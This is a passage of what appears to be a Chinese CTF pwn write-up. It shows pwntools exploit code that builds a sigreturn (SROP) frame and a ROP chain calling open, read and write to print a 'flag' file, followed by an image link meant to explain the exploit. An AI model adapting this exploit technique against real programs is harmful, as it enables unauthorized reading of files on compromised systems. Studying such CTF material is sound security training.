 ```bash
leak('rdi_ret',rdi_ret)
rsi_ret=libcbase+0x00000000000202f8
leak('rsi_ret',rsi_ret)
rdx_ret=libcbase+0x0000000000001b92
leak('rdx_ret',rdx_ret)

buf_addr=bss+0x400

sigFrame=SigreturnFrame()
sigFrame.rdi=0
sigFrame.rip=read_addr
sigFrame.rsi=buf_addr
sigFrame.rdx=0x200
sigFrame.rsp=buf_addr
pl=str(sigFrame)[8:]


p.sendlineafter('Please input magic message: ',pl)
gdb.attach(p)
pause()

flag=buf_addr+0x98


pl1=p64(rdi_ret)+p64(flag)+p64(rsi_ret)+p64(0)+p64(open_addr) #open
pl1+=p64(rdi_ret)+p64(3)+p64(rsi_ret)+p64(bss+0x200)+p64(rdx_ret)+p64(0x100)+p64(read_addr) #read
pl1+=p64(rdi_ret)+p64(1)+p64(rsi_ret)+p64(bss+0x200)+p64(rdx_ret)+p64(0x100)+p64(write_addr) #write
pl1+='flag\00'

s(pl1)

p.interactive()
```

解释一下 exp：

[![](assets/1701612132-e0c46e9cf4cfb371f6ec8a5696c917a8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230818001715-8765ecd0-3d19-1.png)
